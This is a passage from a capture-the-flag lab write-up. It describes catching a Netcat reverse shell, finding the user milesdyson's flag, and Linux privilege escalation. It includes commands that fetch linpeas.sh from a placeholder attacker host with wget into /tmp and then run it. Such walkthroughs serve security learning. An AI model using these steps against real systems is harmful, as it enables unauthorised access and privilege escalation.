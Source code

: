 ## Getting a shell
Immediately after running the exploit in the browser URL, we get a reverse shell in our Netcat listener 
![[Pasted image 20251022194552.png]]

# Further Enumeration
After browsing through the webserver, we identify the home directory and the user milesdyson, we can now view the contents of the directory and we identify the user.txt
![[Pasted image 20251022194716.png]]

# Privilege Escalation on Linux 

1. Hacktricks has useful PrivEsc resource for Linux
[Linux Privilege Escalation - HackTricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html)

2. We can use two useful scripts for Linux Priv Esc

https://github.com/peass-ng/PEASS-ng/releases/download/20251017-d864f4c3/linpeas.sh
[GitHub - rebootuser/LinEnum: Scripted Local Linux Enumeration & Privilege Escalation Checks](https://github.com/rebootuser/LinEnum)

## PrivEsc Using Linpeas
1. We now have to host the linpeas.sh so that we can download on the target machine
2. Navigate to the /tmp folder on the target machine 
3. Once the file is hosted, we can download with the wget command

```
cd /tmp

wget http://attacker_ip:LPORT/linpeas.sh
```

Make the file executable using the below
```
chmod +x linpeas.sh
```

We can now run it with
```
./linpeas.sh
```
## Running Linpeas.sh 
![[Pasted image 20251022201118.png]]
